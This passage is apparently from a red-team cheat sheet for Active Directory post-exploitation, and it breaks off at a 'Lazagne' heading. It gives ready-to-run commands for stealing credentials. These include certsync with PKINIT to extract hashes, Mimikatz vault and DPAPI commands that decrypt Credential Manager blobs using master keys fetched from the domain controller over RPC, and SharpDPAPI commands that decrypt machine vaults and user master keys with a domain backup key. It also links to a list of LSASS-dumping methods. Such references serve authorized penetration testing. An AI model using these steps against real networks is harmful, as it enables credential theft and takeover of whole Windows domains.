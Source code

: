 ```powershell
#Authenticate with all the certificate via PKINIT to obtain the TGTs and extract the hashes with UnPAC-The-Hash
certsync -u administrator -p 'password' -d domain.local -dc-ip <DC_IP>
    #Provide the CA .pfx if it has been obtained with another way
certsync -u administrator -p 'password' -d domain.local -dc-ip <DC_IP> -ca-pfx CA.pfx
```

Many techniques to dump LSASS : [https://redteamrecipe.com/50-Methods-For-Dump-LSASS/](https://redteamrecipe.com/50-Methods-For-Dump-LSASS/)

#### Credentials Vault & DPAPI

Credential manager blobs are stored in `C:\Users\<user>\AppData\Local\Microsoft\Credentials`

List with Mimikatz:

```powershell
Invoke-Mimikatz -Command '"vault::list"'
```

To decrypt the creds, the DPAPI master encryption key must be retrieved. The key GUID can be retrieved with Mimikatz (the filed `guidMasterKey` is the one):

```powershell
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<user>\AppData\Local\Microsoft\Credentials\<blob>"'
```

The GUID can be used to retrieve the key on the DC via a RPC call by providing the full path:

```powershell
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<user_SID>\<key_GUID> /rpc"'
```

Now it possible to decipher the creds with the key:

```powershell
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<user>\AppData\Local\Microsoft\Credentials\<blob> /masterkey:<key>"'
```

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) is also a pretty good tool for DPAPI operations. Here in an elevated context to decrypt machine credential files and vaults:

```powershell
.\SharpDPAPI.exe machinecredentials
.\SharpDPAPI.exe machinevaults
```

Or here, to decrypt user's master keys with a domain backup key, and use them to decipher credential files:

```powershell
.\SharpDPAPI.exe masterkeys /pvk:key.pvk
.\SharpDPAPI.exe credentials {<masterkey_GUID>}:<masterkey_hash> {<masterkey2_GUID>}:<masterkey2_hash>
```

#### Lazagne
